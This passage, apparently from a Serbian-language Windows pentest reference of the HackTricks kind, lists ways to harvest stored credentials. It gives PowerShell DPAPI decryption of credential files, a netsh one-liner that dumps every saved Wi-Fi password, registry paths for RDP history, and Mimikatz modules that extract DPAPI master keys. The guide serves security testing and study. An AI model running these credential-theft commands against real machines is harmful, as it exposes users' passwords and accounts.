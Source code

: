 ### PowerShell Kredencijali

**PowerShell kredencijali** se često koriste za **skriptovanje** i automatizaciju zadataka kao način čuvanja šifrovanih kredencijala na praktičan način. Kredencijali su zaštićeni pomoću **DPAPI**, što obično znači da ih može dešifrovati samo isti korisnik na istom računaru na kojem su kreirani.

Za **dešifrovanje** PS kredencijala iz datoteke koja ih sadrži, možete uraditi:

```powershell
PS C:\> $credential = Import-Clixml -Path 'C:\pass.xml'
PS C:\> $credential.GetNetworkCredential().username

john

PS C:\htb> $credential.GetNetworkCredential().password

JustAPWD!
```

### Wifi

```bash
#List saved Wifi using
netsh wlan show profile
#To get the clear-text password use
netsh wlan show profile <SSID> key=clear
#Oneliner to extract all wifi passwords
cls & echo. & for /f "tokens=3,* delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name="%b" key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on*
```

### Sačuvane RDP konekcije

Možete ih pronaći na `HKEY_USERS\<SID>\Software\Microsoft\Terminal Server Client\Servers\`\
i u `HKCU\Software\Microsoft\Terminal Server Client\Servers\`

### Nedavno izvršene komande

```
HCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
HKCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
```

### **Upravljač lozinki za udaljenu radnu površinu**

```
%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
```

Koristite **Mimikatz** `dpapi::rdg` modul sa odgovarajućim `/masterkey` da **dekriptujete bilo koje .rdg fajlove**.\
Možete **izvući mnogo DPAPI masterključeva** iz memorije pomoću Mimikatz `sekurlsa::dpapi` modula.

### Ljepljive beleške
